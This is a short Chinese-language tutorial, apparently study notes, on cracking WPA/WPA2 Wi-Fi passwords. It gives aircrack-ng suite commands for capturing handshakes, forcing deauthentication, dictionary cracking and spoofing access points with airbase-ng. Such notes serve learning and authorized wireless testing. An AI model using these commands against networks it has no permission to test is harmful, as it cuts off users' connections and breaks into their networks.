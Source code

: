 
# wpa攻击

* 条件

* PSK破解过程

* wpa攻击

## 条件

1. CPU资源
2. 时间
3. 字典质量：
     1. 网上共享的字典
     1. 泄露密码
     1. 地区电话号码段
     1. Crunch生成字典
     1. kali中自带的字典 ——>有些密码不符合要求，会自动过滤

## PSK破解过程

> 启动monitor  
      开始抓包并保存  
      Deauthentication攻击获取4步握手信息     //打掉连接，待它重连的时期获取4步握手信息  
      使用字典暴力破解  

``` 
airodump-ng wlan0mon --bassid MAC -c 11 -w wpa
aireplay-ng -0 2 -a BSSID的MAC -c STA的MAC wlan0mon
```

* 保存下来的信息

``` 
aircrack-ng -w xxx WPA-01.cap
```


### 只有客户端，无AP情况下的WPA密码破解
* 原理
>   客户端会发probe包，询问哪个是连接过得WiFi，泄露信息。

* 过程
``` 
    伪造AP，抓客户端MAC和他发送probe包要连接的AP，伪造一个这样的AP名进行四步握手。
    启动monitor    
    开始抓包并保存
    关键——>根据probe信息伪造相同ESSID的AP
    抓取四步握手中的前两个 包——>重要信息（Nonce1、Nonce2、MAC1、MAC2）
    使用字典暴力破解
//其实四步握手的前两步基本上就得到了重要信息（Nonce1、Nonce2、MAC1、MAC2），可以计算出PTK
PMK：(ESSID+Presharekey)进行4096的hash计算后生成的PMK。
```

* 创造、伪造AP
``` 
airbase-ng --essid AP名  -c 11 wlan0mon ————>OPEN方式
airbase-ng --essid AP名  -c 11 -z 2 wlan0mon————>WPA2、TKIP
airbase-ng --essid AP名  -c 11 -Z 4 wlan0mon————>WPA、CCMP
```


